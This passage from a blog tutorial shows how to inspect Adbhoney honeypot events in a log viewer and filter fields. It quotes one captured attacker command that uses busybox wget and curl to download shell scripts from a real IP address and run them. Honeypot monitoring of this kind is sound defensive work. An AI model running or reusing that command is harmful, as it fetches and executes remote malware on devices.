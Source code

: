 To view details of each event you can click the drop-down arrow on the left side of the event. 

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/adbhoney2.PNG)

Finally, you can see the commands used by attackers on the Adbhoney Pot in the `input` field of the event viewer.

**Below** you will see that the attacker was using the command:

`cd /data/local/tmp/; busybox wget http://45.61.184.4/w.sh; sh w.sh; curl http://45.61.184.4/c.sh; sh c.sh`

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/adbhoney3.PNG)

**Bonus:**

You can use the fields selector on the left pane of the discover tab to show you only fields that you want to see. For example in the below screenshot I used the `input`, `Country`, and `geoip.ip` to filter out all of the information that I did not want to see.

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/adbhoney6.PNG)

---